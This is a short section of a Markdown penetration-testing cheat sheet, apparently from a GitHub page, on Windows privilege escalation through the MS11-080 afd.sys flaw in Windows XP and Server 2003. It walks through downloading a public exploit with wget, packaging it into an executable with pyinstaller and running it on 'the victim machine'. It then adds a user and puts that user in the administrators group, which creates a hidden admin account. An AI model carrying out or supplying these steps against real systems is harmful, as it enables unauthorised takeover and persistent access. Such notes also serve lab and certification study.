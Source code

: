 [Back to Table of Contents](#Table-of-Contents)

### Windows Priviledge Escalation

Microsoft Windows XP/2003 - 'afd.sys' Local Privilege Escalation (MS11-080)
Target OS : Windows XP , Windows Server 2003

```
# Download the exploit
wget -O ms11-080.py https://www.exploit-db.com/exploits/18176
```

Convert python script to windows executable in Windows box
1. Install python
2. Extract pyinstaller-2.0 

```
python pyinstaller.py --onefile ms11-080.py
```
You will find the windows executable file [ms11-080.exe] in folder dist

![MS11-080 Exploit](images/python_exploit.png)

3. Run windows executable file (ms11-080.exe ) to the victim machine

```
# Add user
net user sherwin password /add

# Add user to administrators group
net localgroup administrators sherwin /add
```
[Back to Table of Contents](#Table-of-Contents)
